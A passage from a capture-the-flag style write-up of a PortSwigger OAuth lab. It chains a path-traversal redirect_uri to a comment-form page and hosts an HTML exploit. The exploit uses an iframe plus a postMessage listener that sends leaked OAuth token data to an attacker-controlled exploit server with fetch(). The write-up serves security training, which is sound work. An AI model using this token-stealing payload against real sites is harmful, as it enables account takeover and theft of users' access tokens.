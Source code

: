 ![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/OAuth-Authentication/OAuth-6/images/Pasted%20image%2020230107063028.png)

In this case, it allows us to **post any messages from anywhere.**

Armed with above information, **we can combine the `redirect_url` and the `/post/comment/comment-form` GET request dangerous JavaScript method.**

Let's test it!

**`redirect_url` payload:**
```
redirect_uri=https://0a04002d03ae35a1c0cfc3ae00570017.web-security-academy.net/oauth-callback/../post/comment/comment-form
```

**Then, use the exploit server to host a HTML payload:**
```html
<html>
    <head>
        <title>OAuth-6</title>
    </head>
    <body>
        <iframe src="https://oauth-0a6500a1031335acc036c15102d500ee.web-security-academy.net/auth?client_id=jir8lvdj920kd648mrpo1&redirect_uri=https://0a04002d03ae35a1c0cfc3ae00570017.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=688455368&scope=openid%20profile%20email"></iframe>

        <script type="text/javascript">
            // Listen for web messages
            window.addEventListener('message', function(e) {
                // Output to the exploit server access log
                fetch('https://exploit-0a0300ec03083556c09bc2f601e90082.exploit-server.net/log?data=' + encodeURIComponent(e.data.data))
            }, false)
        </script>
    </body>
</html>
```
